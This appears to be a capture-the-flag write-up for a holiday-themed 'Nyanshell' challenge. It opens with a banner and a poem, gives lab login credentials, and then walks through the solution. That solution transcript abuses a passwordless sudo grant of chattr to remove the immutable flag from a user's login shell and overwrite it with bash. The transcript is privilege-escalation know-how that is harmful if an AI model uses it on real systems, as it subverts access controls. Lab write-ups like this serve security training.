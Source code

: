 Nyanshell motd:
░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░
░░░░░░░░░░▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄░░░░░░░░░
░░░░░░░░▄▀░░░░░░░░░░░░▄░░░░░░░▀▄░░░░░░░
░░░░░░░░█░░▄░░░░▄░░░░░░░░░░░░░░█░░░░░░░
░░░░░░░░█░░░░░░░░░░░░▄█▄▄░░▄░░░█░▄▄▄░░░
░▄▄▄▄▄░░█░░░░░░▀░░░░▀█░░▀▄░░░░░█▀▀░██░░
░██▄▀██▄█░░░▄░░░░░░░██░░░░▀▀▀▀▀░░░░██░░
░░▀██▄▀██░░░░░░░░▀░██▀░░░░░░░░░░░░░▀██░
░░░░▀████░▀░░░░▄░░░██░░░▄█░░░░▄░▄█░░██░
░░░░░░░▀█░░░░▄░░░░░██░░░░▄░░░▄░░▄░░░██░
░░░░░░░▄█▄░░░░░░░░░░░▀▄░░▀▀▀▀▀▀▀▀░░▄▀░░
░░░░░░█▀▀█████████▀▀▀▀████████████▀░░░░
░░░░░░████▀░░███▀░░░░░░▀███░░▀██▀░░░░░░
░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░

nyancat, nyancat
I love that nyancat!
My shell's stuffed inside one
Whatcha' think about that?

Sadly now, the day's gone
Things to do!  Without one...
I'll miss that nyancat
Run commands, win, and done!

Log in as the user alabaster_snowball with a password of Password2, and land in a Bash prompt.

Target Credentials:

username: alabaster_snowball
password: Password2
elf@e60e948135e9:~$
2.8.2. Solution
elf@e60e948135e9:~$ sudo -l
Matching Defaults entries for elf on e60e948135e9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User elf may run the following commands on e60e948135e9:
    (root) NOPASSWD: /usr/bin/chattr
elf@e60e948135e9:~$ su alabaster_snowball

elf@e60e948135e9:~$ cat /etc/passwd | grep alabaster
alabaster_snowball:x:1001:1001::/home/alabaster_snowball:/bin/nsh
elf@e60e948135e9:~$ xxd /bin/nsh  | head -n 1
00000000: 7f45 4c46 0201 0100 0000 0000 0000 0000  .ELF............
elf@e60e948135e9:~$ chattr -i /bin/nsh 
chattr: Permission denied while setting flags on /bin/nsh
elf@e60e948135e9:~$ sudo chattr -i /bin/nsh
elf@e60e948135e9:~$ dd if=/bin/bash of=/bin/nsh
2282+1 records in
2282+1 records out
1168776 bytes (1.2 MB, 1.1 MiB) copied, 0.00964688 s, 121 MB/s
elf@e60e948135e9:~$ su alabaster_snowball
Password: 
Loading, please wait......
